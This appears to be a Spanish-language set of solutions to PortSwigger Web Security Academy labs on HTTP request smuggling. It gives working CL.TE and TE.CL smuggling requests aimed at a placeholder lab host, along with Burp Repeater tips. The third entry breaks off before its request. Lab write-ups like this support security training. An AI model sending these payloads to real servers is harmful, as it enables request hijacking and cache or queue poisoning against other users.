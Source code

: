 ### [HTTP request smuggling, basic CL.TE vulnerability](https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te)

#### Solución:

Enviar 2 veces la siguiente request:

```
POST / HTTP/1.1
Host: LABID.web-security-academy.net
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

### [HTTP request smuggling, basic TE.CL vulnerability](https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl)

#### Solución:

Enviar 2 veces la siguiente request (desactivar "Update Content-Length" de Burp Repeater y mantener los 2 saltos de línea del final):

```
POST / HTTP/1.1
Host: LABID.web-security-academy.net
Content-Length: 4
Transfer-Encoding: chunked

82
GPOST / HTTP/1.1
Host: LABID.web-security-academy.net
Content-Length: 4
Transfer-Encoding: chunked

0


```

### [HTTP request smuggling, obfuscating the TE header](https://portswigger.net/web-security/request-smuggling/lab-ofuscating-te-header)

#### Solución:

Enviar 2 veces la siguiente request (desactivar "Update Content-Length" de Burp Repeater y mantener los 2 saltos de línea del final):
